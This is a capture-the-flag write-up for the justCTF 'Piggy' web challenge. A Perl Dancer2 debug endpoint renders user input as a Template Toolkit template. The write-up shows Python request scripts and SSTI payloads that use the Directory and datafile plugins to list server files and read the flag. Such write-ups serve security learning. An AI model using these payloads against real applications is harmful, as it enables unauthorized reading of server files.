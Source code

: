 # Piggy

## Description
```
Who is such a piggy (ツ)

- http://piggy.web.jctf.pro
```

## Provided Files
```
- piggy_docker.tar.gz  
```

## Writeup

> [!NOTE]
> Major credits to [Dominik](https://github.com/Dominilk) and [Neverbolt](https://github.com/Neverbolt), but also [lavish](https://github.com/lavish) and [ar0x](https://github.com/ar0x4) who contributed to the solution.

Starting off, we inspected the provided code which appeared to be a `perl` application using `Template Toolkit`. <br/>
```perl
use strict;
use warnings;

use Dancer2;
use Template;

my @greetings = ("Hello", "Ebe", "Greetings", "Hi", "Good day");

get '/' => sub {
    my $greeting = $greetings[rand @greetings];
    template 'index' => {
        greeting => $greeting
    };
};

post '/debug' => sub {
    my $input = body_parameters->get('debug');
    my $output;
    
    my $template = Template->new({
        INCLUDE_PATH => './views'
    });
    $template->process(\$input, {}, \$output) or die $template->error();
    return $output;
};

start;
```

The `index` endpoint just returns a random greeting which doesn't really interest us as we can't change its behavior. <br/>
The `/debug` endpoint takes an input parameter named `debug` that we provide in the request body and returns the processed template based on our input. <br/>
Knowing this we can test out the `POST` endpoint using a small python-script. <br/> 
```py
import requests

base_URl = 'http://0rvfc22lv207i818178crbwvmq6vef.piggy.web.jctf.pro/'

payload = {
    'debug': f'[% INCLUDE index.tt %]'
}

res = requests.post(f'{base_URl}debug', data=payload)

print(res.text)
```

Executing the script returns the actual template which is also used by the index endpoint. <br/> 
Since we can select our own template using the `/debug` endpoint, we should look into how we can use this for our advantage. <br/>
Changing our input to `[% 7*7 %]`  returns just `49` indicating a `SSTI` vulnerability in this perl application which uses `Template Toolkit`. <br/>
Knowing that we got a working `Server-Side-Template-Injection` we can look around in the official [Template Toolkit Documentation](https://template-toolkit.org/docs/manual/Directives.html#section_USE) and look for a way to exploit it. <br/>
After some reading we found an interesting option which allows the usage of plugins which can do a variety of things. <br/>
```py
import requests

base_URl = 'http://0rvfc22lv207i818178crbwvmq6vef.piggy.web.jctf.pro/'

payload = {
    'debug': f"[% USE date %][% date.format %]",
}

res = requests.post(f'{base_URl}debug', data=payload)

print(res.text)
```

Executing the script returns `16:32:19 17-Jun-2024`. Knowing that loading plugins isn't blocked we can search for useful plguins. <br/>
After some skimming we found a [plugin](https://www.template-toolkit.org/docs/modules/Template/Plugin/Directory.html) which is able to read the contents of a directory. <br/>
```py
[% USE dir = Directory('./') %][% FOREACH file = dir.files %][% file.path %][% '\n' %][% END %]
```

Using the payload above we were able to read files of any directory on the system we had access to. <br/>
```sh
$ python3 solve.py 
./Dockerfile
./app.pl
./config.yml
./flag_980aef6e461ca1009ea62da051753b38.txt
```

Finding the actual flag, we only had to find a plugin to extract its contents. <br/> 
After more reading we found the plugin [datafile](https://www.template-toolkit.org/docs/modules/Template/Plugin/Datafile.html) which can read file-contents. <br/>
```py
[% USE file = datafile('./flag_980aef6e461ca1009ea62da051753b38.txt') %][% file %]
```

The payload above only returned `Template::Plugin::Datafile=ARRAY(0x5557cd5d87f0)` which didn't really help us. <br/>
Playing around some more with the `datafile` plugin we found a way to output a files' contents using a for-loop. <br/>
```py
[% USE flag = datafile('./flag_980aef6e461ca1009ea62da051753b38.txt', delim = ' ') %] [% FOREACH f = flag %] [% f.Here %] [%END%]
```

Using our exploit we obtained the flag which concludes this writeup. <br/>
```sh
$ python3 solve.py 
  justCTF{0iNk_oinKxD} 
```